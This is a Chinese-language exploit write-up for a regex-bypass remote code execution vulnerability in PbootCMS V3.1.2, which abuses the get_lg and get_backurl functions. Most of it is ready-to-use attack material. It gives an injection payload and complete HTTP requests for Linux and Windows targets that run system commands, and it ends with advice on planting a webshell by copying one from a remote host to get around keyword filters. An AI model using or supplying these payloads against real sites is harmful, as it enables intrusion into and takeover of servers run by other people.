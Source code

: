 # PbootCMS V3.1.2 正则绕过 RCE 漏洞

# PbootCMS V3.1.2 正则绕过 RCE 漏洞

## 漏洞描述

PbootCMS 项目路径下 /common/function.php 中存在两个函数 get_lg 和 get_backurl，可绕过正则处理，进而执行命令。

## 漏洞复现

Bypass exp：

```
?snakin=}{pboot:if((get_lg/*-*/())/**/(get_backurl/*-*/()))}{/pboot:if}&backurl=;id
```

Linux exp：

```
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*aaa-*/())/**/(get_backurl/*aaa-*/()))}123321aaa{/pboot:if}&backurl=;id HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

Windows exp：

```
GET /?member/login/?a=}{pboot:if((get_lg/*aaa-*/())/**/("whoami"))}{/pboot:if} HTTP/1.1
Host: your-ip
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer:your-ip
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lg=system; PbootSystem=8ea446nv2usihctikbjm7qg6c6
Connection: close
```

写 `webshell` 时用 `file_put_contents` 写入时有关键字限制：

![image-20230601112738897](images/image-20230601112738897.png)

可使用 `copy` 函数远程落地。

